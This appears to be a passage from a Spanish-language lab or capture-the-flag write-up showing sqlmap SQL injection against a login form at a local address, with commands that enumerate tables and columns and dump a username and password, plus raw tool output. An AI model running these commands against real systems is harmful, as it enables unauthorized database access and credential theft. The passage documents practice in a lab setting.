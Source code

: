 ### 🔹 Extracción de Tablas en `register`
```bash
sqlmap -u "http://172.17.0.2/index.php" --data "name=admin&password=admin&submit=Login" -D register --tables --batch
```
✔ Tablas encontradas:  
- `users`

### 🔹 Extracción de Columnas en `users`
```bash
sqlmap -u "http://172.17.0.2/index.php" --data "name=admin&password=admin&submit=Login" -D register -T users --columns --batch
```
✔ Columnas encontradas:  
| Columna  | Tipo |
|----------|-------------|
| username | varchar(30) |
| passwd   | varchar(30) |

### 🔹 Extracción de Usuarios y Contraseñas
```bash
sqlmap -u "http://172.17.0.2/index.php" --data "name=admin&password=admin&submit=Login" -D register -T users -C username,passwd --dump --batch
```
✔ Credenciales obtenidas:  
```plaintext
usuario: admin | contraseña: ??????????????
usuario: user1 | contraseña: ??????????????
```
(Si las contraseñas están en hash, proceder a crackeo).

### [17:33:39] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: PHP, Apache 2.4.52
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[17:33:39] [INFO] fetching entries of column(s) 'passwd,username' for table 'users' in database 'register'
[17:33:39] [INFO] retrieved: 'KJSDFG789FGSDF78'
[17:33:39] [INFO] retrieved: 'dylan'
Database: register
Table: users
[1 entry]
+----------+------------------+
| username | passwd           |
+----------+------------------+
| dylan    | KJSDFG789FGSDF78 |
+----------+------------------+


---